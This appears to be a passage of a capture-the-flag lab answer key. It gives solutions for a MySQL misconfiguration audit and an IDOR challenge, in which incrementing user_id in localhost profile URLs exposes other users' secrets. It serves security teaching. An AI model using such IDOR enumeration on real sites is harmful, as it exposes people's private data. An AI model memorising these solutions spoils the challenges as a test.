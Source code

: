 **Objective:** Find MySQL misconfigurations and get flag from `config_audit` table

**Solution:**

```bash
mysql -h localhost -P 3306 -u ctf_user -p

# Step 1: Check critical variables
SHOW VARIABLES LIKE '%secure_file%';
SHOW VARIABLES LIKE '%local_infile%';
SHOW VARIABLES LIKE '%general_log%';

# Step 2: Find flag
SELECT * FROM config_audit
WHERE risk_level = 'CRITICAL';
```

**AI Tool Method:**
```bash
python config_auditor.py --user ctf_user --password <from .env> --report audit.json
# Automatically audits and shows flag
```

**Flag:** From `flags.json` challenge ID 5

**Critical Misconfigurations:**
- `secure_file_priv` = "" (should be `/var/lib/mysql-files/`)
- `local_infile` = ON (should be OFF)

**Common Mistakes:**
- Don't know which variables are security-critical
- Only check one variable
- Don't understand implications

**Teaching Moment:**
- MySQL security hardening
- Attack surface from misconfigurations
- How to audit production databases

---

### PHASE 3: PRIVILEGE ESCALATION (1 hour)

#### Challenge 6: Horizontal Privilege Escalation (200 pts)

**Objective:** Access other users' private data via IDOR vulnerability

**Solution:**

```bash
# Step 1: Navigate to profile page
http://localhost:8080/index.php?page=profile&user_id=1

# Step 2: Try different user_id values
http://localhost:8080/index.php?page=profile&user_id=2
http://localhost:8080/index.php?page=profile&user_id=3
http://localhost:8080/index.php?page=profile&user_id=4

# Step 3: Find user with secret_key field populated
# User ID 2 (Jane Smith) has the flag

# Alternative: Direct SQL
mysql> SELECT * FROM user_secrets WHERE user_id = 2;
```

